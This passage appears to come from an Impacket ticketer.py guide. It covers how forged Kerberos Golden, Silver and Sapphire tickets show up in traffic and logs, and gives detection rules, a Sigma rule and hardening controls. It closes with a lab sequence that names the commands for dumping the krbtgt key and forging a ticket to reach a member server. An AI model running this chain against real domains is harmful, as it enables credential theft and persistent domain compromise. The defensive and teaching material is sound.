That is the entire interaction. The KDC sees nothing. No `TGS-REQ`, no 4769 event. The only signal is whatever the target service itself logs about the connection, plus the artifacts in the local logs at the target.

### Wireshark filters

```text
kerberos.msg_type == 12              # TGS-REQ (Golden Ticket use)
kerberos.msg_type == 14              # AP-REQ (any ticket use)
kerberos.kvno == 0                   # Forged tickets often have kvno 0
kerberos.etype == 23                 # RC4 tickets
```

The `kvno == 0` filter is sometimes useful because forged tickets may not carry a valid key version number. Real tickets always have a kvno that matches the current key version of the issuing account. This is one of the subtle artifact differences detection engineers look for.


## What it looks like in logs

Forgery is invisible to logs. Use is logged according to ticket type.

### Golden Ticket use

Each `TGS-REQ` from the forged TGT generates an Event ID 4769 on the KDC. The fields look superficially normal because the KDC is doing what it always does: issue a Service Ticket in response to a valid TGT.

Anomalies that distinguish a Golden Ticket 4769 from legitimate use:

| Field | Anomaly |
|:---|:---|
| `TicketOptions` | Default Impacket value `0x40810000` differs from typical Windows `0x40810010`. The bit 4 setting (canonicalize) is missing. |
| `TicketEncryptionType` | RC4 (`0x17`) for an account that should use AES (`0x12`). |
| `IpAddress` | Source not in expected workstation subnets. |
| `Logon Time` | Inside the ticket, may not match the typical `authtime` patterns. |

The classic forensic indicator is a 4624 event with no preceding 4768 from the same source. Normal logon flows go 4768 (TGT issued) then 4624 (logon). A Golden Ticket user has no 4768 from the attacker IP because the TGT was forged offline.

### Silver Ticket use

No KDC events fire when a Silver Ticket is used. The detection signals are local to the target service:

- The target machine's Security log shows a 4624 logon with Authentication Package `Kerberos` and source IP from the attacker.
- No corresponding 4768 or 4769 fires anywhere because the KDC was never contacted.

A 4624 logon via Kerberos with no DC log evidence of TGT issuance or TGS issuance is the strongest signal of a Silver Ticket. Cross referencing target machine logs with DC logs is a stable detection pattern.

### Ticket lifetime artifacts

When the attacker uses default settings, the forged ticket has a 10 year lifetime. Inside the ticket, `endtime` is `starttime + 87600 hours`. Services that log ticket lifetimes will show this anomaly.

PowerShell at the target side can inspect the cached tickets and reveal lifetime anomalies:

```powershell
klist sessions
klist tickets
```

A ticket showing a 10 year remaining lifetime is forged. Period.


## Detection and defense

### Detection opportunities

Forgery itself is undetectable at the network level. Detection focuses on use anomalies and on the prerequisites for forgery (i.e., DCSync activity that extracts the `krbtgt` key in the first place).

**4624 logon with no preceding 4768.** The most reliable Golden Ticket signal. A logon via Kerberos requires a TGT, and a TGT is normally issued via a 4768 event. A 4624 from a source IP that has never produced a 4768 is anomalous. SIEM correlation with a short time window catches this cleanly.

**4769 events with anomalous `TicketOptions` or `TicketEncryptionType`.** The Impacket default `TicketOptions=0x40810000` differs from the Windows native `0x40810010` by one bit. A rule that specifically alerts on `0x40810000` from non known sources catches Impacket Golden Tickets directly. Encryption type `0x17` for accounts whose `msDS-SupportedEncryptionTypes` includes AES is the over pass the hash signature, but it also catches RC4 forgery.

**4624 logons with no DC interaction at all.** This is the Silver Ticket signal. Member servers and workstations should see a corresponding 4769 on a DC for any successful Kerberos logon. When the DC has no record of issuing the relevant ticket, but the target shows a successful Kerberos authentication, the ticket was forged and never went through the KDC.

**Anomalous ticket lifetimes.** A logged TGT with an unusual lifetime (much longer or shorter than the domain default) is suspicious. Most defender tooling does not capture lifetime today, but EDR platforms increasingly do.

**DCSync detection.** The prerequisite for Golden Tickets is the `krbtgt` key, which almost always comes from DCSync. Detect `DRSUAPI` `GetNCChanges` requests from non DC sources at the DC. This prevents the entire attack chain by catching the credential theft before forgery is possible.

A starter Sigma rule for the impacket default `TicketOptions`:

```yaml
title: Possible Impacket Golden Ticket Use (Anomalous TicketOptions)
logsource:
  product: windows
  service: security
detection:
  selection:
    EventID: 4769
    TicketOptions: '0x40810000'
  filter_known_legitimate:
    ClientUserName:
      - 'svc_legitimate_*'
  condition: selection and not filter_known_legitimate
level: high
```

### Preventive controls

The control hierarchy for ticket forgery is short and brutal.

- **Rotate the `krbtgt` password regularly.** This is the only Golden Ticket killer. A password rotation invalidates every existing Golden Ticket in the domain. Microsoft provides a script (`New-KrbtgtKeys.ps1`) that performs the rotation safely. It must be run **twice** with a delay between rotations because the `krbtgt` account maintains the previous password value to allow ticket transition. A single rotation is insufficient.
- **Limit who can DCSync.** The `Replicating Directory Changes` and `Replicating Directory Changes All` permissions should belong only to domain controllers, the `Administrators` and `Domain Controllers` groups, and explicitly granted operational accounts. Audit regularly; this permission set drifts in long lived domains.
- **Tier zero account hygiene.** Domain admins should never log on to lower tier endpoints. The hash that gets dumped from a workstation should never be the hash that owns the domain or the hash that grants DCSync.
- **Service account hash protection.** Silver Tickets require the service account key. Service accounts with weak passwords yield to Kerberoasting, which yields the key. Strong passwords or gMSAs prevent both Kerberoasting and Silver Ticket forgery on those accounts.
- **Computer account password rotation.** Computer accounts rotate passwords every 30 days by default, which means Silver Tickets forged with a machine account key expire after 30 days. This is one of the few good news items for defenders. Resist the temptation to disable computer account password rotation for "stability" reasons; it is a meaningful security control.
- **Enable PAC signature validation where possible.** The `ValidateKdcPacSignature` setting forces services to validate the `PAC_PRIVSVR_CHECKSUM` against the DC. This breaks Silver Tickets entirely for services where it is enabled. Compatibility testing is required because some applications do not handle the additional round trip well, but for high value services it is worth pursuing.
- **Monitor for and alert on the prerequisites.** DCSync, LSASS dumping, and direct NTDS.dit access all precede Golden Ticket forgery. Detection at any of those stages stops the attack chain.

The `krbtgt` rotation deserves its own paragraph. Most organizations have never rotated the `krbtgt` password since the domain was created. Some `krbtgt` passwords are over 20 years old. A rotation is a one time, low risk operation that should be on every annual hardening checklist. The fact that so few organizations do it is the single most important reason Golden Tickets remain such a productive attack technique in 2026.


## Related tools and attack chains

`ticketer.py` sits at the high value end of a chain that begins with credential theft and ends with persistent domain compromise.

### Tools that produce input for `ticketer.py`

- **[`secretsdump.py`](../03_credential_access/secretsdump.md)** is the standard source of the `krbtgt` key. The `-just-dc-user krbtgt` form extracts only what is needed.
- **[`GetUserSPNs.py`](../01_recon_and_enumeration/GetUserSPNs.md)** plus offline cracking yields service account passwords, which can then be used to compute service account keys for Silver Ticket forgery.
- **[`lookupsid.py`](../01_recon_and_enumeration/lookupsid.md)** and **[`samrdump.py`](../01_recon_and_enumeration/samrdump.md)** provide the domain SID and the user RIDs required for valid PAC construction.
- **`mimikatz`** (not Impacket) extracts keys from LSASS memory on compromised hosts. The output keys feed into `ticketer.py` directly.

### Tools that consume `ticketer.py` output

Every Impacket tool that supports `-k -no-pass`. The forged ccache is functionally indistinguishable from a real one to downstream tools. See the tool list in [`getTGT.py`](getTGT.md#chaining-into-the-rest-of-the-toolkit) for the full inventory.

### Conversion tools

- **[`ticketConverter.py`](ticketConverter.md)** converts between `.kirbi` (mimikatz / Rubeus) and `.ccache` (Impacket). Useful when forging a ticket on Linux but planning to inject it into a Windows session, or vice versa.

### A canonical Golden Ticket workflow



### A canonical Silver Ticket workflow



The Silver Ticket workflow's appeal is that it requires no Domain Admin step. A weak service account password gives the attacker access to whatever that service runs without ever needing to compromise the directory. For specific high value services (SQL Server with sensitive data, file servers with sensitive shares), this is enough on its own.

### A canonical Sapphire Ticket workflow



The Sapphire Ticket workflow's appeal is detection evasion. PAC validation, when enabled, fails on traditional Golden Tickets with synthetic PACs but passes on Sapphire Tickets because the PAC is genuine.


## Further reading

- **`[MS-PAC]`: Privilege Attribute Certificate Data Structure.** `https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-pac/`. The authoritative specification for the PAC and all of its buffer types.
- **`[MS-KILE]`: Kerberos Protocol Extensions.** Section 3.3.5.6 covers PAC processing and validation.
- **Sean Metcalf "Golden Ticket Attack Defense and Detection"** at `https://adsecurity.org/`. The most accessible foundational article, regularly updated.
- **Benjamin Delpy mimikatz documentation** at `https://github.com/gentilkiwi/mimikatz/wiki`. The original implementation; even the Impacket version's source code references mimikatz as the conceptual source.
- **0xdeaddood "Forging Tickets in 2023"** at `https://0xdeaddood.rocks/2023/05/11/forging-tickets-in-2023/`. The clearest writeup of the post November 2021 changes and how `ticketer.py` was updated to handle them.
- **Microsoft KB5008380** and CVE-2021-42287 documentation. The November 2021 patch that introduced `PAC_ATTRIBUTES_INFO` and `PAC_REQUESTOR`.
- **Microsoft "AD Forest Recovery: Resetting the krbtgt password"** at `https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/ad-forest-recovery-resetting-the-krbtgt-password`. Authoritative guide to safe `krbtgt` rotation. Includes the `New-KrbtgtKeys.ps1` script.
- **Optiv "Kerberos: Active Directory's Achilles Heel"** at `https://www.optiv.com/insights/source-zero/blog/kerberos-domains-achilles-heel`. Defender perspective on detection and mitigation.
- **MITRE ATT&CK T1558.001 Golden Ticket** and **T1558.002 Silver Ticket** at `https://attack.mitre.org/techniques/T1558/`.
- **Hackndo "Silver & Golden Tickets"** at `https://en.hackndo.com/kerberos-silver-golden-tickets/`. Detailed walkthrough with packet level explanations.
- **The Hacker Recipes "Forged Tickets"** at `https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/golden`. Practical reference with multiple tool implementations.

If you have access to a lab domain, build the entire workflow once: compromise an account, escalate to Domain Admin, run `secretsdump.py -just-dc-user krbtgt`, run `lookupsid.py` for the domain SID, forge a Golden Ticket with `ticketer.py`, and authenticate to a member server with `psexec.py -k -no-pass`. The whole sequence can be done in fifteen minutes. After doing it once, the entire Kerberos attack surface of Active Directory becomes intuitive in a way that no amount of reading can substitute for.
